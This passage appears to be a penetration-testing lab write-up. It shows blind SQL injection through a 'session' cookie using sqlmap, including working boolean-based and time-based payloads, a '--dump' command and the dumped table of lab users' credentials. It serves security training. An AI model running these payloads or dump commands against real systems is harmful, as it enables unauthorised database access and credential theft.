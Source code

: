 While checking the content length of all the letters we now see that z is the only one that gives us a good length.

Let's try using SQLMap now&#x20;

<figure><img src="../../../../.gitbook/assets/image (281).png" alt=""><figcaption></figcaption></figure>

paste the '1' request in the file '2' and run it using command line 3

`--level=2`: This option sets the testing level for SQL injection. The testing level ranges from 1 to 5, with 1 being the least aggressive and 5 the most aggressive. In this case, `--level=2` indicates a moderate level of testing aggressiveness. This means that `sqlmap` will perform a more comprehensive and in-depth analysis compared to the default level.

Since we do cookie injection we need level 2

during the attack we get a&#x20;

```
Cookie parameter 'session' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 385 HTTP(s) requests:
---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 2291=2291 AND 'trQy'='trQy

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND (SELECT 5637 FROM (SELECT(SLEEP(5)))VKDL) AND 'lzSr'='lzSr
```

so let's let SQLMap work for us:&#x20;

```
┌──(root㉿kali)-[/home/kali/Desktop/labs]
└─# sqlmap -r req3.txt --level=2 --dump
```

and eventually:

```
Database: peh-labs
Table: injection0x02
[2 entries]
+---------------------+--------------+----------+----------------------------------+
| email               | password     | username | session                          |
+---------------------+--------------+----------+----------------------------------+
| jeremy@example.com  | jeremy       | jeremy   | 6967cabefd763ac1a1a88e11159957db |
| jessamy@example.com | ZWFzdGVyZWdn | jessamy  | 9dedc6891e2839a791ed37157f1241fe |
+---------------------+--------------+----------+----------------------------------+
```
